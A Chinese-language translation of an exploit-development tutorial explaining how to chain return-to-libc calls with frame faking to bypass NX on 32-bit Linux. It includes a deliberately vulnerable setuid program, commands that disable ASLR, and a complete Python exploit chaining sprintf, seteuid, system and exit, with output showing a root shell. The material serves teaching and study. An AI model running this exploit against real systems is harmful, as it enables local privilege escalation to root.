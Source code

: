 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc链接绕过NX](http://www.csyssec.org/20170101/chainingreturntolibc)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04(x86) 

## 什么是Return-to-libc链接

在前文中可以看出，攻击者需要调用多个libc函数才能成功利用漏洞。一种链接libc函数的简单方法就是将不同libc函数依次放在栈中。但由于函数参数的原因，这是不可能的。现在你可能还不明白，没关系，继续往下读就好。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
注意: 上述代码和前文中的(vuln_priv.c)一样。  

编译命令:

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
正如前文所说，链接seteuid,system和exit函数能允许我们利用漏洞代码”vuln”。但并没有这么简单直接，主要在于下面这两个问题：  

1.攻击者需要将两个libc函数参数或者其中一个libc函数参数与另一个libc函数地址放在栈的同一位置。显然这是不可能的(如下图所示)  
2.seteuid_arg必须为0.由于我们的缓冲区溢出是由strcpy操作引起的，0变成了一个不好的字符。比如，strcpy函数不会将0之后的字符拷贝到栈中。  
![](../pictures/chainreturntolibc1.jpeg)  


我们来看看如何解决上述两个问题。  

问题1: 为解决这个问题，Nergal在 [phrack](http://phrack.org/issues/58/4.html) 中提出了两个聪明的技术  

* ESP上升(ESP Lifting)
* 帧欺骗(Frame fakeing)
由于ESP lifting技术要求二进制文件在编译的时候不能设置帧指针(-fomit-frame-pointer)，这里我们只谈帧欺骗技术。 由于我们的二进制文件(vuln)含有帧指针，只好采用帧欺骗技术。     

## 什么是帧欺骗

这项技术不去覆盖返回地址，而是直接覆盖libc函数地址(这个例子中的seteuid函数)，我们采用”leave ret”指令来覆盖。 这让攻击者有机会将函数参数存放在栈中而不必有任何交叉，而且能调用相应的libc函数，并不会带来任何问题。  

栈布局 如下面栈布局所示，帧指针攻击者溢出栈并成功链接libc函数: seteuid, system与exit：  
![](../pictures/chainreturntolibc2.png)   



上图中红色强调的部分是”leave ret”指令调用其上方libc函数的返回地址。举个例子，第一条”leave ret”指令(位于栈地址0xbffff1fc处)调用seteuid()，第二条”leave ret”指令(位于栈地址0xbffff20c处)调用system()，第三条”leave ret”指令(位于栈地址0xbffff21c处)调用exit().  

## leave ret指令是如何调用其上方libc函数的 

为了回答这个问题，首先我们要了解”leave”指令。一条”leave”指令可以翻译成:  

```
mov ebp,esp            //esp = ebp
pop ebp                //ebp = *esp
```
我们来反汇编main()函数，以便更进一步了解“leave ret”指令

``` 
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Main尾声代码:  

如上述栈布局所示，在main函数尾声代码执行之前，攻击者已经溢出栈并用fake_ebp0(0xbffff204)覆盖了main函数的ebp，以及利用”leave ret”指令地址(0x0804851c)覆盖了其返回地址。 现在当CPU要执行main函数的尾声代码时，EIP指向text地址0x0804851c（”leave ret”)。在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff1f8
 	- ebp = 0xbffff204, esp = 0xbffff1fc
* ‘ret’执行”leave ret”指令(位于栈地址0xbffff1fc处)

seteuid: 现在EIP又重新指向text地址0x0804851c(“leave ret”). 在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff204
 	- ebp = 0xbffff214, esp =0xbffff208
* ‘ret’执行seteuid()(位于栈地址0xbffff208). 为了能成功调用seteuid,seteuid_arg必须放在栈地址0xbffff210的偏移量8处(比如seteuid_add）
* 调用seteuid()后，”leave ret”指令(位于栈地址0xbffff20c处)开始执行

可以从上面的栈布局看出，执行上述过程，栈已经按照攻击者的意图设置好，system和exit函数都能得到执行。  

问题2: 在我们的例子中，seteuid必须为0. 但0已经变成一个不好的字符，如何将0写在栈地址0xbffff210处呢？Nergal的同一篇文中讲了一个简单的方法。在链接libc相关函数时，前几个调用必须是strcpy函数(其将一个NULL字节拷贝到seteuid_arg在栈中的位置)。  

注意: 但不幸地是我的libc.so.6中strcpy函数的地址是0xb7ea6200。 libc函数地址本身包含一个NULL字节(不好的字符!)。 因此，strcpy不能成功地利用漏洞代码。sprintf（函数地址是0xb7e6e8d0)可以用来替代strcpy。使用sprintf时，NULL字节被拷贝到seteuid_arg在栈中的位置。  

因此链接下面的libc函数可以解决上面提到的两个问题并成功获取root shell:  

sprintf|sprintf|sprintf|sprintf|seteuid|system|exit  
漏洞利用代码:  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
fake_ebp0 = 0xbffff1a0
fake_ebp1 = 0xbffff1b8
fake_ebp2 = 0xbffff1d0
fake_ebp3 = 0xbffff1e8
fake_ebp4 = 0xbffff204
fake_ebp5 = 0xbffff214
fake_ebp6 = 0xbffff224
fake_ebp7 = 0xbffff234
leave_ret = 0x0804851c
sprintf_addr = 0xb7e6e8d0
seteuid_addr = 0xb7f09720
system_addr = 0xb7e61060
exit_addr = 0xb7e54be0
sprintf_arg1 = 0xbffff210
sprintf_arg2 = 0x80485f0
sprintf_arg3 = 0xbffff23c
system_arg = 0x804829d
exit_arg = 0xffffffff
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A"*264  
buf += conv(fake_ebp0) 
buf += conv(leave_ret) 
#Below four stack frames are for sprintf (to setup seteuid arg )
buf += conv(fake_ebp1) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp2) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp3) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp4) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3)
#Dummy - To avoid null byte in fake_ebp4. 
buf += "X" * 4 
#Below stack frame is for seteuid
buf += conv(fake_ebp5) 
buf += conv(seteuid_addr) 
buf += conv(leave_ret) 
#Dummy - This arg is zero'd by above four sprintf calls
buf += "Y" * 4 
#Below stack frame is for system
buf += conv(fake_ebp6) 
buf += conv(system_addr) 
buf += conv(leave_ret) 
buf += conv(system_arg) 
#Below stack frame is for exit
buf += conv(fake_ebp7) 
buf += conv(exit_addr) 
buf += conv(leave_ret) 
buf += conv(exit_arg) 
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码就可以拿到root shell!!!

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����������������\��������������\��������������\�������������\��� �������AAAA0�������Ѕ
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
现在已经成功绕过NX,下一篇文章让我们来看看如果绕过ASLR.  